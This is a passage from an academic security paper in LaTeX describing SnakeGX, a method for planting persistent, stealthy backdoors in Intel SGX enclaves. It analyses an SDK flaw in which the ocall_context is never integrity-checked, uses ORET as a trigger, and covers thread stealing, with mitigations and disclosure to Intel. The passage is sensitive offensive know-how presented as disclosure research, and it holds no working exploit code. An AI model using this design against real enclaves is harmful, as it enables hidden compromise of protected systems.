	versions currently available.\footnote{At the time of writing, the last SDK 
		version is $2.9$.}
	This is a reasonable assumption since the Intel SGX SDK provides a 
	framework for developing applications on different OSs: Linux and Windows.
	\item \textbf{Multi-threading.}
	This is not strictly required, but the victim enclave should have
	at least two threads for a more general approach.
	The rationale behind this requirement is that the proposed implementation 
	may disable a trusted thread and in case of a single-thread application 
	this is a problem~\citep{intel-developer-guide}.  
	An enclave without free threads cannot process secure functions, thus 
	attracting the analysts attention.
	We might partially ease this requirement with the introduction of SGX 
	$2.0$. 
	However, multi-thread enclaves are a reasonable assumption since different 
	open-source projects use already this feature and SGX-based applications 
	are growing in complexity~\citep{sqlite-sgx,sgxtor,signal,203255,stealthdb}.
\end{itemize}

\textbf{Host Capabilities.}
This is the assumption for the host:

\begin{itemize}
	\item \textbf{Memory Inspection.}  The host can inspect the 
	processes memory and use standard approaches to detect traces of previous
	or ongoing 
	attacks~\citep{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894}.
\end{itemize}

We extend the threat model of previous works, such as \cite{biondo2018guard},
by assuming the host can perform memory forensic analysis.
Therefore, an adversary has the need of hiding her presence in the machine 
and minimizing the interactions with the victim enclave.


\begin{table}
	\centering
	\begin{tabular}{lcc}
		\toprule
		\textbf{Category/Project} & \multicolumn{1}{l}{\textbf{Intel SGX SDK}} 
		& 
		\multicolumn{1}{l}{\textbf{\# of threads}} \\ \midrule \midrule
		\multicolumn{3}{l}{\textbf{Blockchain}} \\ \midrule
		teechain & \checkmark & 10 \\
		private-data-objects & \checkmark & 10 \\
		& \checkmark & 1 \\
		& \checkmark & 2 \\
		fabric-secure-chaincode & \checkmark & 10 \\
		& \checkmark & 8 \\
		eevm & \multicolumn{2}{l}{Open Enclave SDK~\cite{openenclave}} \\
		lucky & \multicolumn{2}{l}{Based on a mock SGX implementation} \\
		node-secureworker & \checkmark & 1 \\
		town-crier & \checkmark & 10 \\
		& \checkmark & 10 \\
		& \checkmark & 1 \\
		& \checkmark & 6 \\
		bolos-enclave & \checkmark & 1 \\ \midrule
		\multicolumn{3}{l}{\textbf{Machine Learning Framework}} \\ \midrule
		gbdt-rs & \checkmark & 1 \\
		bi-sgx & \checkmark & 1 \\
		slalom & \checkmark & 4 \\ \midrule
		\multicolumn{3}{l}{\textbf{Applications}} \\ \midrule
		sgxwallet & \checkmark & 16 \\
		sgx-tor & \checkmark & 10 \\
		& \checkmark & 10 \\
		obscuro & \checkmark & 50 \\
		channel-id-enclave & \checkmark & 10 \\
		sfaas & \checkmark & 3 \\
		phoenix & \multicolumn{2}{l}{Graphene~\cite{203255}} \\
		posup & \checkmark & 4 \\
		tresorsgx & \checkmark & 10 \\ \midrule
		\multicolumn{3}{l}{\textbf{Private Key/Passphrase Management}} \\ 
		\midrule
		sgx-kms & \checkmark & 8 \\
		keystore & \checkmark & 1 \\
		safekeeper-server & \checkmark & 10 \\ \midrule
		\multicolumn{3}{l}{\textbf{Database}} \\ \midrule
		talos & \checkmark & 50 \\
		opaque & \checkmark & 10 \\
		stealthdb & \checkmark & 10 \\
		sgx\_sqlite & \checkmark & 10 \\
		shieldstore & \checkmark & 8 \\
		\bottomrule		
	\end{tabular}
	\caption[List of SGX open-source projects.]{SGX open-source projects 
		extracted from \cite{asop}.}
	\label{tbl:sgx-open-source-prj}
\end{table}

\paragraph{Preliminary Analysis of Assumptions.}
We collected a set of $27$ stand-alone SGX open-source projects from 
\cite{asop} to investigate the correctness of our assumptions, see full 
list in Table~\ref{tbl:sgx-open-source-prj}.
The results show that among the $27$ projects, $24$ of them were based on the 
Intel SGX SDK, while others were developed with Graphene~\citep{203255}, Open 
Enclave SDK~\citep{openenclave}, or contained mocked enclaves.
From the Intel SGX SDK based projects, we counted $31$ enclaves in total, 
among which $24$ were multi-threading ($77\%$).
This preliminary analysis indicates that our threat model fulfills 
real scenarios.
Furthermore, we discuss the porting of SnakeGX over SDKs other than the Intel 
one in Section~\ref{sec:discussion_snakegx}.

\section{Intel SGX SDK Design Limitation}
%\section{SGX Enclaves Custom Trigger}
\label{sec:sgx-internal}
%\todo{I am wondering if I can move this in introduction.}

%\todo{highlight the importance of this part. This is crucial because the 
%consequence of thsi trick is havin a reliable hook that also reduces to zero 
%(almost) the effort of an attacker to attack an enclave repetitely.}

%A fundamental feature of SnakeGX is the ability of implanting new secure 
%functions in an enclave without altering its behavior.
%SnakeGX achieves this goal through a design error that affects all 
%the SGX Software Development Kit (SDK) versions released by Intel.

SnakeGX can trigger a payload inside the enclave without the need of repeating 
a new attack.
This feature is challenging because the enclave has a fixed 
entry point, thus an adversary cannot activate arbitrary code inside the 
enclave from the untrusted memory.
SnakeGX achieves this goal through a design error that affects all 
the SGX Software Development Kit (SDK) versions released by Intel.
In this section, we make a deep analysis of the Intel SGX SDK in order to 
highlight these issues and propose possible mitigations.

\subsection{SDK Overview}
\label{ssec:sdk-overview}

SGX specifications define only basic primitives for creating and interacting 
with an enclave.
Thus, Intel also provides an SDK that helps building SGX-based applications.
The Intel SGX SDK contains a run-time library that is composed by two parts: an 
untrusted run-time library (\texttt{uRts}) that is contained in the host 
process, and a trusted run-time library (\texttt{tRts}) that is contained in 
the enclave.
Specifically, \texttt{uRts} handles operations like multi-threading, while 
\texttt{tRts} manages secure functions dispatching and context-switch. 

The Intel SGX SDK exposes a set of APIs that are built on top of the leaf 
functions described in Section~\ref{ssec:sgx-core-design}.
\texttt{ECALL}, \texttt{ERET}, \texttt{OCALL}, and \texttt{ORET} are the most 
important APIs for SnakeGX.
Figure~\ref{fig:synch-exit} shows the interaction between the host process and 
the enclave.
At the beginning, the host process invokes a secure function by using an 
\texttt{ECALL}, which is implemented by means of an \texttt{EENTER} 
(Figure~\ref{fig:synch-exit}, step $1$).
%At this point, the execution starts from the \texttt{OENTRY} address, which is 
%indicated by the input TCS (see Section~\ref{ssec:enclave-intreaction}).
%\texttt{ECALL} also sets the \texttt{rid} register with the secure function 
%index to call, this will be used by \texttt{tRts} to dispatch the secure 
%function later.
%When a secure function is under execution, it can switch back to the 
%host process for different reasons:
%\begin{enumerate*}[label=(\roman*)]
%	\item the secure function ends (\ie \texttt{ERET}),
%	\item the secure function needs to interact with the OS (\ie 
%\texttt{OCALL}/\texttt{ORET}), or
%	\item an \texttt{AEX} event occurs (not discussed here).
%\end{enumerate*}
When a secure function is under execution, it may need to interact with the OS 
(\eg for writing a file).
Since a secure function cannot directly invoke syscalls, Intel SGX SDK uses 
additional functions that reside in the untrusted memory (\ie called
outside functions).
A secure function can invoke an outside function by using an \texttt{OCALL} 
(Figure~\ref{fig:synch-exit}, point 2), that performs two steps:
\begin{enumerate*}[label=(\roman*)]
	\item save the enclave state, and
	\item pass the control to the outside function.
\end{enumerate*}
More precisely, \texttt{OCALL} first saves the secure function state by using 
a dedicate structure called \texttt{ocall\_context}, which we deeply analyze 
in Section~\ref{ssec:ocall-context}.
Then, \texttt{OCALL} uses the \texttt{EEXIT} leaf function to switch 
the context back to the \texttt{uRts}, that finally dispatches the
actual outside function.
%The outside functions reside in the untrusted memory region and they contain 
%the code for interacting with the OS (\ie syscalls).
Once an outside function ends, the control passes back to the secure function 
by using an \texttt{ORET} (Figure~\ref{fig:synch-exit}, point 3).
Since SGX does not allow to trigger arbitrary code from the untrusted memory 
(\ie the enclave entry point is fixed),
the Intel SGX SDK implements \texttt{ORET} as a special secure function (whose 
index is $-2$) that follows the standard \texttt{ECALL} specifications.
As we discuss in the next sessions, \texttt{ORET} has the ability of activating
arbitrary portion of code in an enclave. 
Normally, the \texttt{ORET} restores the state previously 
stored by the \texttt{OCALL}.
Once the \texttt{ORET} is done, the secure function can continue its execution,
and finally, invoke an \texttt{ERET} to terminate 
(Figure~\ref{fig:synch-exit}, point 4).

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c5/synch-exit.pdf}
	\caption[SGX-Host interaction.]{Example of interaction between host 
		process and enclave by using the Intel SGX SDK. The host process 
		invokes 
		the secure function S1 from the main function (\texttt{ECALL}). S1 
		function 
		invokes O1 (\texttt{OCALL}), and this latter returns to S1 
		(\texttt{ORET}). 
		Finally, S1 returns back to the main function (\texttt{ERET}).}
	\label{fig:synch-exit}
\end{figure}

\subsection{OCALL Context Setting}
\label{ssec:ocall-context}

The \texttt{ocall\_context} is the structure that holds the enclave state once 
an \texttt{OCALL} is invoked.
The way in which the structure is set slightly differs between Intel SGX SDK 
before and after version $2.0$.
In this discussion, we consider the case of the Intel SGX SDK greater than 
$2.0$. However, a similar approach can be also applied to previous versions.

%When the execution leaves the enclave due to an \texttt{OCALL}, the 
%\texttt{tRts} creates a new \texttt{ocall\_context} structure on the stack as 
%described in Figure~\ref{fig:sgx-ocall-context}.
New \texttt{ocall\_context}es are located on top of the stack, as shown in
Figure~\ref{fig:sgx-ocall-context}, moreover, the new structures should 
follow a specific setting.
% shows the \texttt{ocall\_context} structure 
%and how it is allocated in the stack space.
In particular, three \texttt{ocall\_context} fields should be tuned: 
%\texttt{pre\_last\_sp}, \texttt{ocall\_ret}, and  \texttt{rbp}.
\begin{itemize}
	\item \texttt{pre\_last\_sp} must point to a previous 
	\texttt{ocall\_context} or to the stack base address. 
	This needs to handle a chain of nested \texttt{ECALL}s, which are basically 
	\texttt{ECALL}s performed by an outside function.
	\item \texttt{ocall\_ret} is used from SDK $2.0$ to save extended process 
	state~\citep{intel-xsave}. 
	More precisely, the system allocates a \texttt{xsave\_buff} pointed by 
	\texttt{ocall\_ret}. This buffer must be located after the new 
	\texttt{ocall\_context}.
	\item \texttt{rbp} must point to a memory location that contains the new 
	frame pointer and the return address, consecutively. This is because 
	the \texttt{asm\_oret()} function will use this structure as 
	epilogue~\citep{biondo2018guard}.
\end{itemize}
%It is important to underline that SGX does not use any security mechanism to 
%validate \texttt{ocall\_context} integrity.
It is important to underline that SGX does not validate \texttt{ocall\_context} 
integrity.
Therefore, an attacker that takes control of an enclave may craft a fake 
\texttt{ocall\_context}.
This problem has been existing in all SDK version available so far.
In the next section, we discuss why this is an underestimated problem 
and what threats can lead to.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.75\textwidth]{fig_c5/sgx-ocall-context.pdf}
	\caption[\texttt{ocall\_context} memory layout.]{Example of 
	\texttt{ocall\_context} disposition in an enclave stack, the fields point 
	to structures within the stack itself in a precise order.}
	\label{fig:sgx-ocall-context}
\end{figure}

\subsection{Exploiting an ORET as a Trigger}
\label{ssec:oret-trigger}

%\todo{change the argumentation, bring at the beginning the issue and then 
%explain why through the dooret pseudo-code. So, finalize with the new threat.
%Otherwise it loos like a simple exposition of this problem.}
\texttt{ORET} is the only secure function that can trigger arbitrary code in an 
enclave. 
Therefore, an adversary enabled to abusing this function has also
privileged access to the enclave itself.
To understand why it is possible, we analyze the pseudo-code in 
Figure~\ref{fig:do_ocall}, which shows the \texttt{do\_oret()} secure function 
implementation.
%In \texttt{tRts}, \texttt{ORET} is implemented by the function 
%\texttt{do\_oret()}, whose a simplified pseudo-code is shown in 
%Figure~\ref{fig:do_ocall}.
Essentially, \texttt{do\_oret()} extracts the thread-local storage (TLS) from 
the current thread (Line~\ref{fig:do_ocall-getocont}).
The TLS contains information of the last \texttt{ocall\_context} saved.
After some formal controls (Line~\ref{fig:do_ocall-requirement}), the 
\texttt{ocall\_context} structure is used to restore the secure function 
execution through the \texttt{asm\_oret()} function 
(Line~\ref{fig:do_ocall-asmoret}).
%At first, \texttt{do\_oret()} extracts the TLS structure from the TCS 
%(Line~\ref{fig:do_ocall-gettls}).
%Then, it obtains the pointer to the last \texttt{ocall\_context} form the TLS 
%(Line~\ref{fig:do_ocall-getocont}).
%After this, \texttt{do\_oret()} performs a set of formal checks on 
%\texttt{ocall\_context} about its location 
%(Line~\ref{fig:do_ocall-requirement}).
%In case the formal checks are satisfied, \texttt{do\_oret()} sets TLS 
%\texttt{last\_sp} to the previous \texttt{ocall\_context} 
%(Line~\ref{fig:do_ocall-restocont}) and it invokes \texttt{asm\_oret()} to 
%restore \texttt{ocall\_context} (Line~\ref{fig:do_ocall-asmoret}).
%\texttt{asm\_oret()} is the function that actually sets processor state 
%according to \texttt{ocall\_context} values. Finally, \texttt{asm\_oret()} 
%resumes the secure function execution.
%Notice that \texttt{asm\_oret()} does not return, but it just passes the 
%control according to the \texttt{ocall\_context} setting.
%Therefore, if \texttt{do\_oret()} returns for any reasons, it is notified as 
%an error.
The formal checks performed by \texttt{do\_oret()} over the previous 
\texttt{ocall\_context} are quite naive.
There are three basic requirements:
\begin{enumerate*}[label=(\roman*)]
	\item the \texttt{ocall\_context} must be within the current stack space,
	\item the \texttt{ocall\_context} must contain a constant (hard-coded) 
	magic number, and
	\item the \texttt{pre\_last\_sp} must point before the actual 
	\texttt{ocall\_context}.
\end{enumerate*}

After the previous analysis, we realized that the Intel SGX SDK has no strict
mechanisms to verify the integrity of an \texttt{ocall\_context}.
In other words, any \texttt{ocall\_context} that fulfills
the previous conditions can be used to restore any context in an enclave.
First steps in this direction were explored by previous 
works~\citep{biondo2018guard}, which exploited \texttt{asm\_oret()} simply to 
control the processor registers in a one-shot code-reuse attack.
However, we want to push further the limitation of the Intel SGX SDK and show 
which consequences these issues can lead to.
%However, having a lack of \texttt{ocall\_context} checks can lead to 
%more serious consequences.
In fact, SnakeGX uses a combination of \texttt{ORET} and tampered 
\texttt{ocall\_context}es to restore arbitrary \emph{chains}
inside the enclave without performing further exploits.
In particular, SnakeGX abuses of this flaw for two reasons:
\begin{enumerate*}[label=(\roman*)]
	\item as a trigger to activate a custom payload hidden inside the 
	enclave;
	\item for the payload to perform a reliable context-switch between host and 
	enclave.
\end{enumerate*}
Therefore, crafting malicious \texttt{ocall\_context}es leads to the 
possibility of implanting backdoor in a trusted enclave without tampering the 
enclave code itself.
As such, the backdoor is shielded by the SGX features by design.
Moreover, the fact of using a single \texttt{ORET} to trigger the backdoor 
reduces the interactions required by a weak adversary for new attacks.
We discuss technical details in Section~\ref{sec:enclavekit} and show our 
proof-of-concept (PoC) in Section~\ref{sec:evaluation_snakegx}.

\begin{figure}[t]	
	\begin{lstlisting}[style=CStyle,escapechar=@]
	sgx_status_t do_oret()
	{
	// TLS structure
	tls = get_thread_data();@\label{fig:do_ocall-gettls}@
	// last ocall_context structure
	ocall_context = tls->last_sp;@\label{fig:do_ocall-getocont}@
	
	if (!formal_requirements(ocall_context))@\label{fig:do_ocall-requirement}@
	return SGX_ERROR_UNEXPECTED;
	
	// set TLS to point to previous ocall_context
	tls->last_sp = ocall_context->pre_last_sp;@\label{fig:do_ocall-restocont}@
	
	// restore last ocall_context
	asm_oret(ocall_context);@\label{fig:do_ocall-asmoret}@
	
	// in the normal execution
	// the control should not reach this point
	return SGX_ERROR_UNEXPECTED;
	}
	\end{lstlisting}
	\caption{Simplified \texttt{do\_oret()} pseudo-code.}
	\label{fig:do_ocall}
\end{figure}

\subsection{Mitigations}
\label{ssec:ocall-limitation}
%\todo{boh, not super sure of this stuff here}
There are many strategies to improve the \texttt{ocall\_context} integrity. 
A pure software solution could be computing an encrypted hash of 
\texttt{ocall\_context} when it is generated.
The hash might be appended as an extra field to the structure.
Another approach, instead, could be encrypting the entire structure itself.
However, pure software mitigation can be potentially bypassed by any 
code-reuse attack.
Once the attacker gains control of the enclave, she can basically revert or 
fake any encrypted processes.
A stronger solution could be introducing dedicated leaf functions that manage 
the generation and consumption of \texttt{ocall\_context}es.
For instance, during an \texttt{OCALL}, the enclave might use a dedicated leaf 
function that creates an \texttt{ocall\_context} and saves a 
copy (\ie an hash) in a memory location out of the attacker control (similar to 
TCS or SECS pages~\cite{costan2016intel}).
An \texttt{ORET}, then, should use another leaf function that performs extra 
checks and validate the integrity of the \texttt{ocall\_context}.
This solution might raise the bar for attacks, but it has two important 
drawbacks:
\begin{enumerate*}[label=(\roman*)]
	\item it forces Intel to re-thinking the SGX structures at low level,
	\item it leaves less freedom to developers that want to adapt the Intel SGX 
	SDK to their own needs (\eg to customize or introduce new structures).
\end{enumerate*}
After this consideration, we believe this issue would last for long before being
fixed. We reported this limitation to Intel that is reviewing its 
memory corruption protections.

%\section{S\lowercase{nake}GX}
\section{Design}
\label{sec:enclavekit}

%\todo{new messages to pass: (1) the framework has to achieve: persistence, 
%state, interactiveness; (2) the new challenges of implanting and designing the 
%framework.}

SnakeGX is the first framework that facilitates the implanting of persistent, 
stateful, and interactive backdoors inside SGX enclaves.
%This allows an adversary to inject additional secure functions without breaking
%the victim enclave functionality.
The framework design is challenging because we want to preserve the original
enclave functionality and configuration.
Even though SGX $2.0$ encompasses runtime page permissions 
setting~\citep{intel-sgx2}, an unexpected configuration may attract analysts 
attention (\ie the host can read the enclave page permissions).
On the contrary, our solutions purely rely on code-reuse techniques that do not
affect the enclave functionality and configuration.
%We achieve our goal despite the strict SGX threat model.
To the best of our knowledge, no previous works on SGX code-reuse attacks
never addressed these challenges.
We also recall we assume two conditions:
\begin{enumerate*}[label=(\roman*)]
	\item the target enclave has to be built with the Intel SGX SDK, 
	and
	\item it contains at least one exploitable memory-corruption 
	vulnerability (\eg a stack-based buffer overflow).
\end{enumerate*}

%In this paper, we propose SnakeGX: a framework to implant data-only 
%backdoors in SGX enclaves. 
%The strict threat model of this technology complicates 
%all the phases of a successful infection. To the best of our knowledge, all 
%these challenges 
%have never been discussed and addressed by previous works on SGX code-reuse 
%attacks.
%In this section, we illustrate all the challenges that we faced
%and discuss the solutions adopted when we designed our framework.
%In addition, we recall that we assume two conditions.
%First, the target enclaves have to be built with the SGX SDK.
%Second, the application running inside the enclave has at least one code 
%execution vulnerability that an attacker 
%can exploit (\eg a stack-based buffer overflow in a secure function).


\subsection{Overview}
\label{ssec:overview-attack}

%Our aim is to implant a backdoor inside a trusted thread of a trusted enclave.
The backdoor implanting is composed by three main phases:
\begin{enumerate*}[label=(\roman*)]
	\item enclave memory analysis,
	\item installation phase, and
	\item payload triggering.
\end{enumerate*}

\textbf{Enclave Memory Analysis.}
In this phase, the attacker has to achieve two goals:
\begin{enumerate*}[label=(\roman*)]
	\item inspect the process memory layout to identify enclave elements, and
	\item find a suitable location to install SnakeGX.
\end{enumerate*}
Since SGX does not implement any memory layout randomization, an adversary
can easily inspect the victim process memory by only using user-space 
privileges (\eg the enclave pages are assigned to a virtual device called 
\emph{isgx} in Linux environments).
Moreover, we target enclaves made with the Intel SGX SDK that follow the 
Enclave Linear Address Range (ELRANGE)~\citep{costan2016intel}.
As a result, an adversary with solely user-space privileges can obtain:
\begin{enumerate*}[label=(\roman*)]
	\item the enclave base address,
	\item the size, and
	\item the enclave trusted thread locations.
\end{enumerate*}
In Section~\ref{ssec:memory-location}, we discuss how to obtain a reliable 
memory location.

%\paragraph{Payload Installation.}
\textbf{Payload Installation.}
The installation phase is a one-shot attack that exploits an enclave 
vulnerability and uses a code-reuse technique for installing the payload.
This attack has to achieve three goals:
\begin{enumerate*}[label=(\roman*)]
	\item copy the payload inside an enclave (\eg the \emph{chain} and the 
	fake \texttt{ocall\_context}),
	\item set a hook to trigger the payload,
	\item resume the normal application behavior.
\end{enumerate*}
These three goals make this phase quite critical for three reasons. 
First, either enclave and host process have to remain available after the 
payload installation, or else we have to re-start the enclave.
Second, the enclave behavior does have not to change, or else the host should 
realize the attack.
%This means that the enclave secure functions have to work normally after the 
%payload installation.
Finally, we have to remove the payload in the untrusted memory, or else it 
could be detected.
This phase can be implemented by using any current code-reuse attacks for SGX
enclaves~\citep{lee2017hacking,biondo2018guard}.

\textbf{Payload Triggering.}
After the installation phase, the adversary only needs to trigger an
\texttt{ORET} to activate the payload 
(Section~\ref{ssec:set-a-payload-trigger}).
This allows an external adversary to activate the payload without attacking
the enclave from scratch.
%In this way, it is possible to trigger the payload transparently.
%Specifically, the hook will trigger the payload whenever the host application 
%interacts with the infected enclave. 
The payload contains the logic for interacting with the OS and the 
enclave.
To achieve persistence, we design a generic architecture that fits the SGX
realm (Section~\ref{ssec:enclave-kit-architecture}).
Moreover, since the payload can potentially leave the  
enclave, we designed a generic context-switch mechanism that
enables the payload to keep control over the enclave 
(Section~\ref{ssec:switch-context}).

\subsection{Getting a Secure Memory Location}
\label{ssec:memory-location}

%\todo{start the argumentation by saying: due to our analysis, we think using a 
%trusted thread is the best option because: 1) sgx error design, 2) we can't 
%allocate new pages.}
%Due to the strict SGX security features, 
We employ a trusted
thread as backdoor location because it allows us to abuse the 
design error described in Section~\ref{sec:sgx-internal}.
%	\item SGX does not allow to arbitrarily allocate memory 
%	pages.\footnote{The new SGX SDK versions can add only a predefined 
%	number of pages~\cite{intel-sgx2}.}
%\end{enumerate*}
%Therefore, obtaining a suitable memory location for an SGX data-only 
%malware is challenging.
If an enclave does not have any available trusted thread, 
SnakeGX can still work by stealing one of the available threads. In this 
case, the target application may notice some degradation of the performances. 
However, the system does not raise any exception because it is not possible to 
determinate the real cause.
In this way, we can take control of an enclave trusted thread without affecting 
enclave functionality.
%As we describe in Section~\ref{ssec:thread-handling}, SGX SDK uses a bind 
%mechanism that is implemented in the \texttt{uRts} libraries.
%This maintains a pool of trusted thread that is bounded to an untrusted one 
%on-demand.
%For instance, in a Linux environment the trusted threads are stored in a 
%\texttt{std::vector}.
%In addition, controlling a trusted thread allows us to abuse of SDK error 
%designs discussed in Section~\ref{sec:sgx-internal}.
These properties are SGX specific and were not considered in previous 
code-reuse works.

\paragraph{\textbf{Un-releasing a Trusted Thread.}}
This technique is based on a misbehaviour of the thread binding mechanisms in 
the \texttt{uRts} library.
Once a secure function is invoked through the Intel SGX SDK, the
\texttt{uRts} searches a free trusted thread and marks it as \emph{busy}.
Then, the trusted thread is released when the secure function ends.
However, an attacker can exploit a secure function and leaves the enclave 
skipping the \emph{releasing} phase in the \texttt{uRts}.
As a result, the trusted thread remains \emph{busy} and it will never
be assigned to future executions, in this way it is stolen.
The strategy of this technique is composed by two phases:
\begin{enumerate*}[label=(\roman*)]
	\item invoking and exploiting a secure function, then
	\item exiting from the enclave (\eg by using EEXIT) and 
	skipping the \emph{releasing} of the trusted thread.
\end{enumerate*}
This approach requires the enclave has at least two trusted threads, otherwise 
